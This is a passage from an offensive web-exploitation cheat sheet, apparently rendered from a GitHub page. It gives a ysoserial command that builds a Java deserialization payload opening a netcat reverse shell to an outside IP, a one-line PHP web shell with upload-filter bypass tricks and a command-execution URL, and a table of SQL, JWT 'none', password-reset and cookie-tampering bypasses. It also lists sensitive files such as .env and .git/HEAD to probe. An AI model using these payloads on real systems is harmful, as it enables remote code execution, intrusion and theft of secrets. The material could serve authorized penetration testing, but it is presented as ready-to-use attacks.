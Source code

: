 #### 💣 Java Example

Use `ysoserial`:

```bash
java -jar ysoserial.jar CommonsCollections1 "nc -e /bin/sh 10.10.14.2 4444" | base64
```

***

### XII. ⚙️ File Upload Exploitation

#### 🧩 Upload Shell

```php
<?php system($_GET['cmd']); ?>
```

#### 🧠 Bypass Filters

* Rename extensions: `.phtml`, `.php3`, `.phar`
* Double extensions: `file.php.jpg`
* Null byte trick: `file.php%00.jpg`
*   Use content-type spoofing:

    ```
    Content-Type: image/jpeg
    ```

#### 💣 Execute

```bash
http://target.com/uploads/shell.php?cmd=id
```

***

### XIII. ⚙️ Authentication & Logic Bypasses

| Technique            | Payload                                                       |
| -------------------- | ------------------------------------------------------------- |
| SQL Bypass           | `' OR '1'='1'-- -`                                            |
| Password Reset Abuse | Manipulate `user=email@example.com` → change admin’s password |
| JWT Manipulation     | Change `alg` from `RS256` → `none`                            |
| Cookie Tampering     | Base64 decode + modify user role                              |

***

### XIV. 🧠 Information Disclosure

```bash
/.git/HEAD
/.env
/config.php.bak
/backup.zip
/index.old
```
